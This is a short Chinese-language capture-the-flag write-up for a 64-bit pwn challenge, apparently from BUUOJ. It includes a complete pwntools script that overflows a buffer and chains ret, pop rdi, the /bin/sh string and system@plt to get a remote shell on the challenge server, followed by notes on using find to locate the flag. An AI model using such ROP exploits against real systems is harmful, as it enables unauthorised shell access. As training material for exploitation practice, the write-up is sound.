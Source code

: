 64位，动态链接，NX打开

![image-20220313143813506](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853039.png)

main函数中调用了system函数，/bin/sh也可以在程序中找到

![image-20220313143927837](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853824.png)

![image-20220313143932985](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853469.png)

编写脚本

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')   #64位
host='node4.buuoj.cn'
port=27041
io=remote(host,port)
#io=process()
elf=ELF("./pwn")

system = elf.plt["system"]
bin_sh = next(elf.search(b"bin/sh"))
pop_rdi = 0x400683
ret = 0x400479
payload = 0x18*b'a' + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
io.sendlineafter(b"What's your name? ", payload)
io.interactive()
```

但根目录里没有找到flag

 find使用格式 ：  find [指定查找目录] [查找规则] [查找完后执行的action]

![image-20220313144838839](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853663.png)

找到flag位置

![image-20220313145153578](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853784.png)

